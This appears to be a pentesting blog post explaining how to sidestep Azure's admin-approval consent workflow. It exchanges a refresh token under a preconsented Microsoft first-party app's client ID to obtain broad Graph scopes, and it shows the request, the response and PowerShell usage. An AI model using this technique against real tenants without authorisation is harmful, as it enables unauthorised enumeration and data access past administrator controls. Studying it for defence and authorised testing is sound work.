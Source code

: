 ```yaml
---

layout: post
title: Bypass Azure Admin Approval Mode for User Consent Workflow When Enumerating
lang: en
lang-ref: bypass-azure-admin-approval-mode-enumeration
categories: [Windows security, Azure, Microsoft]
tags: [windows, cybersecurity, azure, microsoft, red team, pentesting]

---
```


# Bypass Azure Admin Approval Mode for User Consent Workflow When Enumerating

In this short blog post we will see a trick/technique to enumerate an Azure environment when the User App Consent Workflow is blocked and it is necessary to request permission to an administrator. After the administrator approves the consent the user can user the application.

When this mode is set an we attempt to enumerate groups/users/anything else when Microsoft Graph or similar we will get a prompt to request an administrator to approve our use of the application. 

With this technique we leverage Microsoft well-known apps that has some permissions by default. Because they already has some permissions granted we can take advantage of them to get a token with the scopes we want, for example, *Group.Read.All* [https://learn.microsoft.com/en-us/graph/permissions-reference#groupreadall](https://learn.microsoft.com/en-us/graph/permissions-reference#groupreadall).

## The Idea

During an Azure pentest, it's likely that the tenant has administrator approval mode enabled for external application permissions, hindering enumeration tasks—for example, through Microsoft Graph.

[![](../../assets/img/bypass-azure-admin-approval-mode-enumeration/Pasted image 20241011203825.png)](../../assets/img/bypass-azure-admin-approval-mode-enumeration/Pasted image 20241011203825.png){:target="_blank"}

When you try to enumerate groups, users, and other elements with Microsoft Graph, you'll find that it's not possible when using Microsoft's default application.

[![](../../assets/img/bypass-azure-admin-approval-mode-enumeration/Pasted image 20241011203833.png)](../../assets/img/bypass-azure-admin-approval-mode-enumeration/Pasted image 20241011203833.png){:target="_blank"}

## Abusing well-known Microsoft Apps with permissions already granted

However, it's possible to leverage other default Microsoft applications, such as **SharePoint Online Web Client Extensibility** (08e18876-6177-487e-b8b5-cf950c1e598c), since it has certain permissions granted by default. It has the default permissions that can be seen in the following image. I think that there are other applications available, but I have been using **SharePoint Online Web Client Extensibility**. 

[![](../../assets/img/bypass-azure-admin-approval-mode-enumeration/Pasted image 20241011204007.png)](../../assets/img/bypass-azure-admin-approval-mode-enumeration/Pasted image 20241011204007.png){:target="_blank"}

Take a look at your tenant and you will find this application owned by Microsoft and with the permissions shown granted.

We can then issue a token using this application and request, for example, *https://graph.microsoft.com/.default* scope.

Here is an example request and response.

```
POST /[REDACTED]/oauth2/v2.0/token HTTP/2
Host: login.microsoftonline.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded;charset=utf-8
Content-Length: 1544
Referer: [REDACTED]
Origin: [REDACTED]
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site
Te: trailers

client_id=08e18876-6177-487e-b8b5-cf950c1e598c&scope=https://graph.microsoft.com/.default&grant_type=refresh_token&client_info=1&x-client-SKU=msal.js.browser&x-client-VER=3.23.0&x-ms-lib-capability=retry-after, h429&x-client-current-telemetry=5|61,0,,,|,&x-client-last-telemetry=5|1|61,[REDACTED]|post_request_failed|1,0&client-request-id=[REDACTED]&refresh_token=[REDACTED]


HTTP/2 200 OK
Cache-Control: no-store, no-cache
Pragma: no-cache
Content-Type: application/json; charset=utf-8
Expires: -1
Strict-Transport-Security: max-age=31536000; includeSubDomains
X-Content-Type-Options: nosniff
Access-Control-Allow-Origin: *
Access-Control-Expose-Headers: Content-Length,Content-Encoding,x-ms-request-id,x-ms-srs
Access-Control-Allow-Methods: POST, OPTIONS
P3p: CP="DSP CUR OTPi IND OTRi ONL FIN"
X-Ms-Request-Id: [REDACTED]
X-Ms-Ests-Server: 2.1.19005.9 - NEULR1 ProdSlices
X-Ms-Clitelem: 1,0,0,112993681.7929,
X-Ms-Srs: 1.P
Referrer-Policy: strict-origin-when-cross-origin
X-Xss-Protection: 0
Set-Cookie: [REDACTED]
Set-Cookie: [REDACTED]
Set-Cookie: [REDACTED]
Date: Thu, 10 Oct 2024 15:37:52 GMT
Content-Length: 6583

{"token_type":"Bearer","scope":"email openid profile https://graph.microsoft.com/AppCatalog.Read.All https://graph.microsoft.com/AppCatalog.Submit https://graph.microsoft.com/Calendars.Read https://graph.microsoft.com/Channel.ReadBasic.All https://graph.microsoft.com/EduAssignments.ReadBasic https://graph.microsoft.com/EduRoster.ReadBasic https://graph.microsoft.com/Files.Read https://graph.microsoft.com/Files.Read.All https://graph.microsoft.com/Group.Read.All https://graph.microsoft.com/Group-Conversation.ReadWrite.All https://graph.microsoft.com/GroupMember.Read.All https://graph.microsoft.com/InformationProtectionPolicy.Read https://graph.microsoft.com/People.Read https://graph.microsoft.com/People.Read.All https://graph.microsoft.com/Presence.Read.All https://graph.microsoft.com/Tasks.ReadWrite https://graph.microsoft.com/Team.ReadBasic.All https://graph.microsoft.com/TeamsAppInstallation.ReadWriteForTeam https://graph.microsoft.com/TeamsAppInstallation.ReadWriteSelfForTeam https://graph.microsoft.com/User.Read https://graph.microsoft.com/User.ReadBasic.All https://graph.microsoft.com/.default","expires_in":5149,"ext_expires_in":5149,"access_token":"ey[REDACTED]","refresh_token":"[REDACTED]","refresh_token_expires_in":319000,"id_token":"[REDACTED]","client_info":"ey[REDACTED]"}
```

With the received token we can then connect to *Microsoft Graph* and take advantage of that permissions.

```
PS C:\> $access_token = "ey..."
PS C:\> $secure_access_token = ConvertTo-SecureString $access_token -AsPlainText -Force
PS C:\> Connect-MgGrapth -AccessToken $secure_access_token
PS C:\> Get-MgContext | select -ExpandProperty Scopes
[...]
```

[![](../../assets/img/bypass-azure-admin-approval-mode-enumeration/Pasted image 20241011204249.png)](../../assets/img/bypass-azure-admin-approval-mode-enumeration/Pasted image 20241011204249.png){:target="_blank"}

And in this way, we can now continue with the enumeration tasks 😜.
